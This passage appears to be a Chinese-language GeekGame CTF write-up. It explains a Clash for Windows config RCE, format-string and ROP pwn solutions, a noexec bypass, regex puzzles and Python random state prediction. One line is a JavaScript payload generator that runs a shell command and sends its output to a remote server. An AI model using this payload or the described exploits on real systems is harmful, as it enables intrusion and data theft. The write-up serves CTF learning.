第一个问题很简单，我们可以对需要执行的代码进行Base64编码写进配置里。第二个问题我是用了后一种方案，因为我有正在运行的服务器，我就直接以flag的base64编码为参数对服务器做了个请求，从日志里把flag扒出来。（这个flag好像是electron is unsecure？）

```javascript
// payload（with my IP masked）
proxies:
  - name: forge
// generator JS:
require("querystring").escape(btoa(`require("http").get("${remote_URL}"+require("child_process").execSync("${rce}").toString("base64"), (res)=>{});`))
```


在查到0.19.8这个漏洞之前，我还查到了一个更高版本（0.20.12）爆出来的漏洞，这个漏洞的原理是，利用远程`provider`配置的功能可以把对应的配置下载到本地，并且可以指定配置文件的地址。但是Clash Premium内核对配置文件的处理有漏洞，可以发生路径穿越，并最终可以导致`provider.yml`覆盖CFW的配置文件`cfw-settings.yml`，然后`cfw-settings.yml`有包含`parsers`在内的主动执行nodejs代码的模块，或者`child_process`这样主动发起子进程执行命令的模块，进行RCE。唯一的问题在于，要让`cfw-settings.yml`生效需要让CFW重启，考虑到有`supervisord`保持CFW一直运行，如果有办法让把CFW搞崩溃或者kill掉，让supervisord重启CFW，或许也可以用这个洞拿到flag。可以看这个[RCE issue](https://github.com/Fndroid/clash_for_windows_pkg/issues/3891)

#### 总结

首先不得不佩服出题人的创意，我从来没想过在CTF里面会用VNC远程桌面作为题目环境，很炫酷很geek。事实也证明这个VNC确实是有代价的，启动加载很慢（我猜很耗资源），而且还有不少BUG（最典型的就是CFW配置文件报错提示有时候点不掉，后面的配置就无法导入了，只能重启环境）。感觉noVNC + puppeteer限制操作自由度是个挺好的出题思路啊，期待以后更多的远程桌面Web/misc题。

这个题的前端是模拟一个受害者的视角。导入配置和访问网页都是正常的用户行为，但是如果导入了恶意的配置，就可能导致严重的安全问题。所以对一般人来说，如果要用的话，最好还是只导入受信任的配置，并且积极更新版本获取补丁。

## Binary
### 汉化绿色版免费下载（解包）
（只做出了第一问，第二问发现了令人绝望的多解于是不再尝试）

这个题给的是一个galgame（视觉小说）游戏，包括一个exe和若干数据/存档文件，看文件描述是用KIRIKIRI这个galgame框架，尝试搜了这个框架名，没搜到特别多有用的信息。打开exe，游戏流程很简单，就是会有两次机会，从`flag{`开始，每回合输入一个只包含AEIOU的字符，并以`}`结束，然后会比较两次输入是否相同，会有成功和失败的提示。在游戏上方的存档读档功能里面，有一个已有的存档0，直接从第二次输入开始，所以这个题很可能需要我们去猜这个存档第一次的输入是什么。游戏的其他附件基本都是二进制文件，不知道怎么解码，其中`savedata/data0.kdt`很明显就是存档文件。

我是CheatEngine用户，attach上游戏程序后，在内存中搜索当前在游戏中出现的字符串，比如`flag{`，结果能在内存中找到flag1的完整内容。除此之外还有个意外收获，就是找到了一些[疑似代码的东西](./krkr/galgame_code)。以我对这类游戏框架的理解，这应该是控制游戏逻辑的脚本，由游戏框架运行。忽略脚本中大量关于显示、音效的设置，重点关注判断逻辑和跳转方面的问题，会发现在第一段和第二段输入中，包括了一段非常可疑的hash计算：

```sh
# round1.ks
p="f.text = 'flag{'"
@eval exp="f.hash = 1337"
# ...
*sel_a
@eval exp="f.text = f.text + 'A'"
@eval exp="f.hash = f.hash * 13337 + 11"
@jump target=*sel_end

*sel_e
@eval exp="f.text = f.text + 'E'"
@eval exp="f.hash = f.hash * 13337 + 22"
@jump target=*sel_end

*sel_i
@eval exp="f.text = f.text + 'I'"
@eval exp="f.hash = f.hash * 13337 + 33"
@jump target=*sel_end

*sel_o
@eval exp="f.text = f.text + 'O'"
@eval exp="f.hash = f.hash * 13337 + 44"
@jump target=*sel_end

*sel_u
@eval exp="f.text = f.text + 'U'"
@eval exp="f.hash = f.hash * 13337 + 55"
@jump target=*sel_end

*sel_fin
@eval exp="f.text = f.text + '}'"
@eval exp="f.hash = f.hash * 13337 + 66"
@jump target=*sel_end

*sel_end
@eval exp="f.hash = f.hash % 19260817"
# round2.ks
p="f.text = 'flag{'"
@eval exp="f.prev_hash = f.hash"
@eval exp="f.hash = 1337"
# ... 这段和round1.ks相同
# done.ks
@if exp="f.hash == f.prev_hash"
# ... 
```
既然flag2是需要逆向出存档0的输入，那么我们需要研究这段代码，这个hash计算很明显是个模数域多项式，N=19260817（好暴力的数字）和x=13337是个质数，除了最高次项系数1337外，多项式的系数是我们的输入，都是11的倍数。在有CE的情况下，很容易找到存档一的prev_hash：新建一个存档，玩到输入第二遍的流程，然后输入这里理论上的hash，搜索得到的内存，一定是prev_hash或者hash，然后再输入一个新的字符，没变的就是prev_hash。这时如果读取存档，prev_hash会变成我们目标flag2对应的hash，是7748521。但实际上hash的取值只有19260817种，而不限制长度的话可用的输入有无限种，因此原则上就不可能通过暴力穷举的方式得到正确的输入的。

一阶段中完全忘记了应该搜xp3这个扩展名的解包软件（甚至flag1内容都提示了，我就是没找到），是一个巨大的失误，这个理论上应该很好找（毕竟汉化组们肯定会需要这些东西）

### 初学C语言（格式化字符串漏洞，ROP2syscall）
好古典的格式化字符串漏洞啊，是时候检验我bugku刷题的成果了（

首先自然是把程序丢进Ghidra里逆向，反编译的程序中，test函数从名为`flag_f503be2d`的文件中读取了一个字符串存储到local_458的位置（Ghidra栈变量命名规则是相对返回地址偏移量，local_0就是返回地址），后面通过fgets读取至多0x3ff字节的字符串，但是后面直接把它传给了`printf`的第一个参数。很明显这是一个格式化字符串漏洞。x64调用函数时，前6个参数以寄存器方式传递，后面的参数则从右往左顺序入栈，这样出栈时序号小的参数地址较低；但是对printf这样可变参数的函数，即使没有真的传这么多参数，printf也会用相同的算法找到对应的内存作为参数，很显然这个内存位置属于调用printf的main函数的栈空间，所有栈变量都在其中，这自然也包括存储flag1的local_458。例如用`%20$p`这样的参数可以直接读取第20个参数对应的内存内容，即使这个位置完全不属于printf的栈。除了读取flag以外，因为这个题还开启了PIE，函数地址有随机的偏置，但test函数的返回地址在main函数内，所以泄露返回地址就破解了PIE。

printf还有另外一个神奇的特性，就是当传入%n时，printf并不会输出，而是把那个参数当作一个int*指针，向4字节写入当前已输出的字符总数。同时，更加方便的功能是，如果加前缀%hhn, %hn，%ln，还可以只对1字节、2字节或者8字节写入，方便到仿佛是作为后门设计的。利用这个特性，我们可以在返回地址后方布置ROP链。这个题用ROPgadget扫出来的gadget很多很杂（可能跟大量函数静态链接有关），虽然没有system，execve这样方便的函数，但是有syscall, pop rax这样的gadget，因此构造ROP通过syscall调用execve执行shell。

[exp](./pwn/exp_pwn_fmt.py)

### Baby Stack（整数溢出，格式化字符串漏洞，GOT表劫持）
这个题隔壁出的吧，不像是贵校比赛的风格，而且考点重复了（不过难度高了些）
#### Challenge 1：
主要是两部分，main函数scanf %d输入一个最大为100的uint作为输入的长度，然后进入get_line函数输入，最后返回。100是无法达到返回地址所在的位置的。函数列表里赫然出现了一个名为backdoor的函数，里面调用了`system("/bin/sh");`。

破局关键在于当第一轮输入0时，get_line函数会判断循环变量是否大于，`len - 1`而`len`是uint，减1之后会变成最大的整数2**32-1，所以在这里就可以输入任意长的字符串了。此时只需要覆盖返回地址到backdoor地址……你就会发现程序报段错误了。

为什么呢？这是因为system函数要求栈地址是16字节对齐的，编译好的程序自然是没问题，但我们是劫持流程过来的，没法保证rsp的位置刚好在16整除的位置。不过这也很简单，只要多覆盖点内存，在前方留出一个ret gadget即可调整栈指针的位置。

[exp](./pwn/exp1.py)

#### Challenge 2：
这个题又是格式化字符串！不过和上个题不同，没有循环了，输入次数很有限，这个题总共有三次输入，都使用scanf %s，第一次限制字符长度后调用printf，第二次直接调用printf，第三次是调用puts。

这个题的trick在于用一般栈溢出格式化字符串的思路会遇到各种奇怪的阻碍。首先scanf有空格和00截断，而地址的高位一定是00，会截断所有的输入。如果尝试改写返回地址回到main自身，会报段错误，因为scanf有栈对齐的要求。如果仅仅利用有限的几次循环，根本来不及构建ROP链。

但是这个题有一个非常明显的暗示，在第二次调用printf到第三次调用puts之间，没有其他对puts的调用，这可能是要我们去改写puts函数的GOT重定位表到system函数，这时调用`puts("/bin/sh")`就是调用`system("/bin/sh")`。第一次printf足够把栈地址和libc地址（通过__libc_start_main）泄露出来，本地调试可知puts和system的地址会有5个hex不同，我们需要改写3个字节。麻烦在于，我们只有两次printf机会，每次只能带一个地址进去（多的会被00截断），第一次已经用来leak地址了，第二次如果直接改写4个字节，我们很可能要进行2**32即GB量级的字节输出后才能调用成功（即使roll一个高位地址为0的那也有几十MB），如果我真的这么做号就肯定被封了。你可能会想到，如果分两次，第一次改1个字节，第二次改2个字节就好了，并且因为重定位后地址是按页对齐，后三位hex是固定的，所以有一定可行性。但很不幸的在两次printf中间有puts调用，如果改了就直接崩。

这里的思维陷阱在于，真正限制我们的是每次输入只能输入一个地址，但因为两次字符串保存在栈上不同的位置，我们第一次输入的地址不一定要第一次用，可以第二次两个一起用，这样就能成功劫持重定位表地址。万幸这次system没出现栈对齐的问题。

[exp](./pwn/exp2.py)

### 禁止执行，启动！（lldb，ddexec）

很有意思的终端题。这个题运行在一个qemu的虚拟机上，但是在mount文件系统时，给除了`/bin`以外的所有系统都加上了`-noexec`设置，flag1和flag2都是要执行某段shellcode（应该是调用了一个自定义系统调用），flag3需要加载执行某个ELF程序。

我比赛中只做了flag1，因为这个环境在busybox之外特地给了lldb，这是一个调试器，利用ptrace系统调用可以调试其他进程，包括不限于修改内存和寄存器，所以我们只需要用lldb调试一个程序，在断点把所有寄存器的值布置好，然后把rip指向任意一个可执行区域的syscall，单步执行一次就可以了。（说起来比较简单，实际上因为我之前都是用gdb/pwndbg的，lldb的语法完全不熟悉，其实调了很久）

后面两问环境没有lldb。没时间做了，但至少第二问我在一阶段是有思路的，就是用proc文件系统。可以nohup运行一个程序，最好是一个有IO等待的程序。这个程序的内存映射可以在/proc/[pid]/mem中访问，各个段的地址和权限可以在/proc/[pid]/maps中查看。关于权限问题，如果父进程创建了一个指向自身mem的fd，子进程继承了这个fd，则子进程是可以对父进程的mem进行改写。我们用dd指定偏移地址访问mem文件，可以读取代码段和读写栈，因而我们可以在代码段寻找gadget，然后在栈上构建ROP。这个应该是第二阶段提示所说的流程。我也找到一些基于这个思路的自动攻击项目，比如[DDexec](https://github.com/arget13/DDexec)，不过我没跑通。

第一问[exp](./noexec/exp1.py)


## Algorithem
### 关键词过滤喵，谢谢喵（用正则表达式……写汇编？）
#### flag1, flag2, (部分flag3)：re喵程序设计：从入门到放弃
flag1其实非常简单喵，因为是求字符串长度喵，所以字符串具体是什么内容不重要喵，首先把【.】替换成【A】喵。在最前面放一个标志以区分字符串和输出喵，每次要输出把对应的数据放在标志位前面喵，其实相当于一个链表栈喵。然后重复把每十个字符替换成字符B喵，这样剩下的A的数目就是最低位喵，可以从9到0进行依次替换喵，保证只会匹配一次喵。一个非常好用的技巧是再加入一个A变成从10到1的替换喵，因为正则对0和1的处理是不一样的喵，那样要多写分支是很折磨的喵。把最低位移动到输出区就有新的最低位了喵，简单的分治算法喵。

flag2要开始引入指针的概念了喵，我们可以用四个标志位分别标记活跃和不活跃的字符串头和尾喵，有固定的方法让活跃的标志改成相邻的单元喵，相当于对指针做【p++】或者【p--】喵，这样我们就可以把整个字符串改造成数据可变长数组的数据结构喵。这个题方法也十分直观喵，首先预处理把空行去掉喵，然后把每个字符串复制一份喵，毕竟最后是要输出每行的原文喵。这时数组每个元素实际上是一个包含两个元素结构体喵，我们可以遍历一遍数组喵，每次把从元素2去掉一个字符喵，哪个元素先变成空值哪个元素就最短喵，就可以把对应元素1移动到输出区了喵。

这是[前两问的代码](./filtered/exp1miao.py)喵

flag3开始上难度了喵，BF是一个图灵完备的正经解释器了喵。虽然我做的没通过远程的测试喵，但是我HelloWorld能跑通喵，我觉得我的架构还是挺好的喵，可以讲讲喵。

先给大家看看我的中间状态喵，你们就大概知道我的数据结构喵
```
# 本来程序段还有N作为非活跃标志位喵，我调试时为了方便看指针位置给去掉了喵
括分000000000000000000000000000000000000000000000000000000000000000000000000分00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000分000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000分000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000出码++++++++[>++++[>++>+++>+++>+<<<<-]>+>+>->>+[<]<-]>>.>---.+++++++..+P++.>>.<-.<.+++.------.--------.>>+.>++.内===000000000000000000000000000000000000000000000000000000000000000000000000~0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000=0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000=00000000000000000000000000000000=00000000====
```
程序很明显可以分为代码段、输出段、内存段和一个额外的括号匹配栈段喵，用中文字符分割喵。代码段用一个字母指示RIP喵。BF的内存实际上是无限长整数数组喵，题目限定了整数是非负喵，我这里就用0的数量表示数组元素大小喵，然后用~和=分别表示活跃和非活跃数组指针喵。这时BF的+-.<>都相对好实现喵，但是[]不好办喵，因为跳转括号需要匹配喵，所以需要一个额外的括号匹配栈喵，来处理RIP跳转喵，数据结构课都讲过喵。输出段就直接把对应数据加上分隔符复制到输出段喵，运行代码时可以先这么放着喵，BF代码执行结束后再慢慢处理喵。最后整理输出时按ASCII从大到小匹配替换就可以了喵，别忘了把0换成别的不属于ASCII输出范围的元素喵。

看看我的[BF解释器代码](./filtered/exp_bf.py)喵，我也不知道哪里有BUG喵。

谢谢喵。

#### flag3非预期解：报错泄露+面向测试用例编程（TCOP=Test Case Oriented Programming）

虽然不知道出题人是不是真的没想到喵，但我觉得真的挺秀的喵，很符合CTF奇技淫巧的风格喵。

根源在于我们当我们跳转到一个不存在的label时会输出报错信息喵，报错信息是字典的KeyError喵，会把跳的是哪个label输出出来喵，这最终可以造成BF源码泄露喵。根据判题程序每次跑的测试用例是固定的喵，所以我们可以祭出计概打OJ时最常用的偷鸡方法喵，即强行用if分支printf每个测试用例的结果喵，我把它称为面向测试用例编程（TCOP）喵，C语言初学者必备技能喵。

具体操作来说我们首先可以通过【^.{n}】是否存在判断字符串长度喵，可以遍历检查原始程序的每一个元素喵，比如“如果【第n个元素是+】就跳转到【+】喵”，“如果【第n个元素是-】就跳转到【-】喵”，这样就能泄露出正在执行的源码每个字符喵。实际我们可以用64KB的程序喵，我们或许有空间可以真的定义跳转后的分支喵，这样我们就可以在一次终端连接leak多个字符喵，毕竟终端是30秒3次喵，这样比较效率喵。我试了试一次leak3个字符是装得下的喵，4个就装不下了喵，判断分支数会指数增加喵。judge程序判断BF程序的源码不会超过2048字符喵，实际上第二问的ayaka.txt应该是1184个喵，不到一个小时就跑完了喵。

最后我们只要用正经的BF解释器就能拿到运行结果了喵，直接把整个字符串替换成结果就可以了喵。可以用字符串长度判断当前是第几个测试用例喵。

这是[代码](./filtered/leak_bf.py)喵，leak部分和exploit部分可能混到一起了喵，但是应该能分出来喵。

顺便一提第一个BF的结果是"Hello World\n"喵，出题人说只有0x20-0x7A喵，出题人骗人喵，出题人第二问是不是也骗了我喵，是不是运行中间会出现负数内存喵。

谢谢喵。

### 小章鱼的曲奇（python Random）
这个题的主题是Python random标准库。众所周知，Python的random算法是梅森旋转（MT19937），它维护一个包含一个有624个uint32元素的S盒，每次从S盒取出一个元素，做一些可逆的异或操作提取输出，同时通过梅森旋转的操作打乱S盒（每次是右移一位，加入一个新的元素，这个元素的生成只用了S盒中固定位置三个元素）。MT19937有良好的统计性能，但是它非常容易被预测，只要通过连续624次int32，就能拿到完整的S盒状态，进而预测后面的每一次输出，因此不适合作为任何密码学的目的。有不少现成的库可以自动完成这些步骤，我这次用的是[mt19937predictor](https://github.com/kmyk/mersenne-twister-predictor)

#### flag1: MT19937
这个题在flag前面加了2500个字节全0，然后用Random生成了等长的随机序列逐字节异或，返回给我们输出值。

因为前2500字节是和0异或，所以这些就是Random的输出本身。这个2500凑的刚刚好，因为只需要624*4=2496个字节就能爆破出S盒。

#### flag2,3：源码阅读与非预期解
flag2的用来逐字节异或的mask由三个部分组成：一个给定种子的Random序列A，一个我们指定种子的随机序列B（AB种子不能相同），一个我们未知种子的随机序列C，依次和目标逐字节异或。

这个题我去读了Python标准库的源码（我是3.11.6版本），经过一些关键词搜索（看Random调用的内部函数名）搜到了如下设置种子的源码（即如何从单一种子变成624元素的S盒）：
```c
//  _randommodule.c (3.11.6 source)
static int random_seed(RandomObject *self, PyObject *arg);

/* This algorithm relies on the number being unsigned.
    * So: if the arg is a PyLong, use its absolute value.
    * Otherwise use its hash value, cast to unsigned.
    */
if (PyLong_CheckExact(arg)) {
    n = PyNumber_Absolute(arg);
} else if (PyLong_Check(arg)) {
    /* Calling int.__abs__() prevents calling arg.__abs__(), which might
        return an invalid value. See issue #31478. */
    _randomstate *state = _randomstate_type(Py_TYPE(self));
    n = PyObject_CallOneArg(state->Long___abs__, arg);
}
else {
    Py_hash_t hash = PyObject_Hash(arg);
    if (hash == -1)
        goto Done;
    n = PyLong_FromSize_t((size_t)hash);
}
if (n == NULL)
    goto Done;
```
我们会发现一个很有趣的事实，就是算法本身会把seed取绝对值，也就是说n和-n得到的随机数序列会是完全一样的，而第二问对AB种子的检查并没有取绝对值，所以只需要输入它的负值，AB随机数序列在异或时就会完全消掉，退化到第一问。

flag3给出了一大堆随机数种子，似乎是让我们得到和这些种子相同的随机数序列。很显然也没有对这方面做检查，所以对输入进行一次“重复把【0x】替换成【-0x】喵”就可以直接解出第三问。这个题原本是想考哪些种子能得到相同的随机数序列吧？


## 后记
第三次参加GeekGame了。从去年GeekGame2结束开始，陆陆续续在xctf，ctfhub和bugku刷了好几波题（主要是pwn和reverse），所以现在俨然以一副老赛棍的姿态来参加比赛了。赛前给自己定的目标就是15名拿二等奖，达到预期了很开心。
不过这次比赛时间比较尴尬，刚好赶上我主业这边有个学术会议要去开，所以白天听报告晚上刷题，熬夜同时第二天还要起大早，还是挺辛苦的。算下来总时长（不算writeup时间）可能也有60小时左右，可能卷不过榜上面很多人但是应该也不算少了。

